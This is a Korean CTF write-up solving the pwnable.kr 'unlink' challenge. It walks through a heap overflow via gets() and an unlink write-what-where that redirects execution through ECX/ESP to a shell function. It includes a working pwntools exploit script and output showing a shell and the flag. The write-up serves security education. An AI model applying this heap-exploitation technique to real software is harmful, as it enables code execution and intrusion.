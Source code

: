 ```yaml
---
layout: post
title:  "Pwnable.kr unlink 풀이"
date:   2019-01-24 15:13:49 +0900
categories: writeup
tags: wargame pwnable pwnable.kr
---
```


# unlink - 10 pt

## 문제

```
Daddy! how can I exploit unlink corruption?

ssh unlink@pwnable.kr -p2222 (pw: guest)
```

SSH로 연결해 들어가 보면 읽기 권한이 없는 `flag` 파일, `unlink.c` 소스코드와 `unlink` 바이너리가 주어져 있습니다. 이 문제의 목표는 `unlink` 바이너리에서 `shell`함수를 호출해 쉘을 따는 것 같네요.

## 풀이

### 개요

주어진 소스코드를 보면서 문제의 개략적인 구조를 파악해 봅시다.

```c
typedef struct tagOBJ{
        struct tagOBJ* fd;
        struct tagOBJ* bk;
        char buf[8];
}OBJ;
```

`OBJ`란 구조체가 정의되어 있습니다. 구조체 포인터인 `fd`와 `bk`가 있고 8바이트를 담을 수 있는 공간이 있네요. `fd`와 `bk`의 용도는 뒤에서도 나오겠지만 여러 개의 `OBJ` 구조체를 하나의 연결 리스트처럼 이을때 사용하는 포인터랍니다.

```c
void shell(){
        system("/bin/sh");
}
```

딱 봐도 이 함수로 실행흐름을 바꿔서 쉘을 따는 것 같습니다. 참고로 `unlink` 바이너리의 권한은 `flag`파일을 읽을 수 있도록 해줍니다.

```c
int main(int argc, char* argv[]){
        malloc(1024);
        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
        OBJ* C = (OBJ*)malloc(sizeof(OBJ));

        // double linked list: A <-> B <-> C
        A->fd = B;
        B->bk = A;
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);

        // exploit this unlink!
        unlink(B);
        return 0;
}
```

`unlink` 바이너리의 메인 함수입니다. `OBJ` 구조체 3개 (A, B, C)를 생성한 후, A의 fd를 B로, B의 fd를 C로 연결한 다음 C의 bk를 B로, B의 bk를 A로 연결하고 있습니다. 그 다음 `gets` 함수로 A의 메모리 공간에 데이터를 입력합니다. 여기서 Heap Overflow 가 발생해서 뒤에 오는 B 구조체와 C 구조체의 메모리 공간을 마음대로 변조할 수 있게 됩니다. 그 다음 B를 `unlink` 함수로 각 구조체간의 연결을 끊습니다. `unlink` 함수를 좀더 자세히 보도록 할까요.

```c
void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        BK=P->bk;
        FD=P->fd;
        FD->bk=BK;
        BK->fd=FD;
}
```

`unlink` 함수에서는 파라미터로 주어진 `OBJ` 구조체 블록의 연결을 끊으면서 자신의 `fd`와 `bk`를 가르키고 있던 두 구조체로 연결을 시켜주네요. 결국 끊어진 구조체는 고립되게 됩니다. 그림으로 보면 이해가 더 쉬울 것 같네요. 발로 그림을 그렸나 의심할 수 있는데 손으로 그렸습니다 하하.

![1](https://raw.githubusercontent.com/cxbt/Writeup/master/Wargame/Pwnable.kr/screenshot/unlink_1.png)

### 공략 방법

`unlink` 바이너리에서 Stack 영역 주소와 Heap 영역 주소를 알려주고 있습니다. 이 문제를 접하고 하루정도 잡고 늘어지고 있었는데요, 그동안 여러가지 삽질을 시도해 봤습니다.

- `B.fd`에 `main` 함수 스택 프레임의 리턴 주소를 넣고, `B.bk`에 `shell` 함수의 주소를 넣어서 실행흐름을 바꾼다.

안타깝게도 `unlink` 함수를 호출하면 하면 `B.fd` 주소에 있는 값과 `B.bk` 주소에 있는 값이 각자의 주소로 바뀌게 됩니다. 그래서 `main` 함수 스택 프레임의 리턴 주소는 정상적으로 바꿀수 있습니다만 `shell` 함수의 주소로 가서 쓰기 작업을 할 수 없는 코드 영역에 데이터를 쓰려고 하기 때문에 Segmentation Fault가 발생하면서 프로그램이 죽습니다. (RIP)

- `A.buf`에 `jmp $shell`과 같은 어셈 코드를 넣고 위처럼 실행흐름을 Heap으로 넘긴다.

위와 비슷한 맥락의 문제가 발생하는데 어셈 코드를 넣는다고 해도 나중에 `main` 함수 주소로 덮어 씌워지게 됩니다. 그래서 프로그램이 이상해 지다가 실행할 수 없는 코드를 만나고 죽게 되죠. 게다가 바이너리에 NX가 걸려있어서 어셈 코드가 실행을 될지 모르겠네요. (알고보니 실행 됐습니다)

이 눈물나는 삽질과 노가다를 하루 종일 하다가 깨달은 건 `shell` 함수를 Heap에 저장해 놓고 리턴 주소를 직접적으로 `shell` 함수 주소로 바꾸는 것을 어렵다는 점, 그리고 이를 위해서 `shell` 함수를 간접적으로 참조하게 하는 로직을 찾아야 한다는 점입니다. 아무리 봐도 어느부분을 사용해야 되려나 봤는데 눈 씻고 찾아봐도 없어서 여러 블로그 눈팅했는데요, [이 블로그](https://go-madhat.github.io/pwnable.kr-unlink/)를 살짝살짝 읽다가 깨달음을 얻었습니다.

```assembly
0x0804852f <+0>:     lea    ecx,[esp+0x4]
0x08048533 <+4>:     and    esp,0xfffffff0
0x08048536 <+7>:     push   DWORD PTR [ecx-0x4]
0x08048539 <+10>:    push   ebp
0x0804853a <+11>:    mov    ebp,esp
...
0x080485fa <+203>:   mov    eax,0x0
0x080485ff <+208>:   mov    ecx,DWORD PTR [ebp-0x4]     <- 여기, 결국 EBP-0x4 값만 컨트롤 하면 EIP를 변조할 수 있게 된다.
0x08048602 <+211>:   leave
0x08048603 <+212>:   lea    esp,[ecx-0x4]               <- 여기
0x08048606 <+215>:   ret
```

처음 어셈블리 코드를 봤을 때 왜 저런 방식으로 함수 프롤로그를 여는지 궁금해서 구글에 쳐봤는데 컴파일러의 속마음을 아는 사람은 없었는지 이유를 찾지 못했습니다. 그러나 중요한 점은 이게 리턴 주소를 단순히 스택에 집어 넣고 `leave ret`으로 돌아가는 것이 아니라 `ECX` 범용 레지스터를 사용해서 간접적으로 참조를 시킨다는 점입니다. 왜 이렇게 컴파일러가 하는지에 대한 이유는 아직도 찾지 못했습니다. (주소 정렬하려고 이렇게 했나) 

간단하게 요약하자면 `lea esp,[ecx-0x4]` 코드를 활용하면 `shell` 함수의 주소를 간접적으로 가져올수 있습니다! :D

위에서 수행하려고 했던 방법의 한계점은 이랬죠.

- 읽기 영역인 코드 영역을 침범했다.
  - 이번에는 Heap과 Stack에 있는 값을 변조할 것이기 때문에 코드 영역을 침범하지 않습니다!
- 값이 서로 뒤바뀌어서 직접적으로 값을 참조할 수 없다.
  - `ESP`를 변조하는 값이 `[ecx-0x4]`이기 때문에 서로 뒤바뀐 값이 들어있는 영역이 아니라 그 영역에서 4바이트 전의 영역을 사용할 수 있다. 여기에 `shell` 함수의 주소를 넣고 이쪽으로 실행흐름을 돌리면 되겠네요.

아래 코드는 위에서 설명한 방법을 사용하는 익스플로잇 코드입니다.

```python
from pwn import *

p = process("/home/unlink/unlink")
d = p.recvuntil("get shell!")
print d

# 문제에서 주어진 Stack, Heap, Shell 함수의 주소를 가져온다.
stack = int(d.split(":")[1].split()[0].strip(),16)
heap = int(d.split(":")[2].split()[0].strip(),16)
shell = "\xeb\x84\x04\x08"

# 페이로드를 구성한다.
payload = ""
payload += shell+'A'*12         # A.buf[8] = Shell 함수 4바이트 + "A"*4
payload += p32(stack + 0xc)     # B.fd = EBP-0x4 위치를 주어진 Stack 주소에서 계산해 넣는다.
payload += p32(heap + 0xc)      # A.buf+4 = ecx-0x4를 참조하기 때문에 A.buf+4 주소를 넣는다.

print repr(payload)

p.send(payload)
print p.recvline()
p.interactive()
```

실행하면 매끄럽게 따지는 마술을 볼수 있습니다. 와우.

```bash
unlink@ubuntu:~$ python /tmp/nvm.py
[+] Starting local process '/home/unlink/unlink': Done
here is stack address leak: 0xff974b84
here is heap address leak: 0x929e410
now that you have leaks, get shell!
'\xeb\x84\x04\x08AAAAAAAAAAAA\x90K\x97\xff\x1c\xe4)\t'


[*] Switching to interactive mode
$ ls
flag  intended_solution.txt  unlink  unlink.c
$ cat flag
conditional_write_what_where_from_unl1nk_explo1t
```

Heap 영역에서 발생하는 여러가지 취약점 중 간략화된 `Double Free Bug`를 사용해서 풀도록 만든 문제였습니다. 더 많은 Heap 영역에서 발생하는 취약점을 알고 싶으시다면 [블랙펄시큐리티 블로그 글](https://bpsecblog.wordpress.com/2016/10/06/heap_vuln/)을 한번 읽어보세요.

---

<sub>
더 많은 문제풀이는 제 [리포](https://github.com/cxbt/Writeup)에서 확인하실수 있습니다.
</sub>
